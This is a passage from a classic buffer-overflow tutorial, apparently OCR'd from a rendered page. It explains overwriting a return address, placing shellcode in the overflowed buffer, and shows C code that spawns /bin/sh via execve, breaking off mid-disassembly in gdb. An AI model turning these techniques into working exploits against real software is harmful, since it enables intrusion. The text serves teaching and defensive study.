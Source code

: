    We can see that when calling function() the RET will be 0x8004a8, and we
want to jump past the assignment at 0x80004ab.  The next instruction we want
to execute is the at 0x8004b2.  A little math tells us the distance is 8
bytes.


                                  Shell Code
                                  ~~~~~~~~~~

   So now that we know that we can modify the return address and the flow of
execution, what program do we want to execute?  In most cases we'll simply
want the program to spawn a shell.  From the shell we can then issue other
commands as we wish.  But what if there is no such code in the program we
are trying to exploit?  How can we place arbitrary instruction into its
address space?  The answer is to place the code with are trying to execute in
the buffer we are overflowing, and overwrite the return address so it points
back into the buffer.  Assuming the stack starts at address 0xFF, and that S
stands for the code we want to execute the stack would then look like this:


bottom of  DDDDDDDDEEEEEEEEEEEE  EEEE  FFFF  FFFF  FFFF  FFFF     top of
memory     89ABCDEF0123456789AB  CDEF  0123  4567  89AB  CDEF     memory
           buffer                sfp   ret   a     b     c

<------   [SSSSSSSSSSSSSSSSSSSS][SSSS][0xD8][0x01][0x02][0x03]
           ^                            |
           |____________________________|
top of                                                            bottom of
stack                                                                 stack


The code to spawn a shell in C looks like:

shellcode.c
-----------------------------------------------------------------------------
#include <stdio.h>

void main() {
   char *name[2];

   name[0] = "/bin/sh";
   name[1] = NULL;
   execve(name[0], name, NULL);
}
------------------------------------------------------------------------------

   To find out what does it looks like in assembly we compile it, and start
up gdb.  Remember to use the -static flag. Otherwise the actual code the
for the execve system call will not be included.  Instead there will be a
reference to dynamic C library that would normally would be linked in at
load time.

------------------------------------------------------------------------------
[aleph1]$ gcc -o shellcode -ggdb -static shellcode.c
[aleph1]$ gdb shellcode
GDB is free software and you are welcome to distribute copies of it
 under certain conditions; type "show copying" to see the conditions.
There is absolutely no warranty for GDB; type "show warranty" for details.
GDB 4.15 (i586-unknown-linux), Copyright 1995 Free Software Foundation, Inc...
(gdb) disassemble main
Dump of assembler code for function main:
0x8000130 <main>:       pushl  %ebp
0x8000131 <main+1>:     movl   %esp,%ebp
0x8000133 <main+3>:     subl   $0x8,%esp
0x8000136 <main+6>:     movl   $0x80027b8,0xfffffff8(%ebp)
0x800013d <main+13>:    movl   $0x0,0xfffffffc(%ebp)
0x8000144 <main+20>:    pushl  $0x0
0x8000146 <main+22>:    leal   0xfffffff8(%ebp),%eax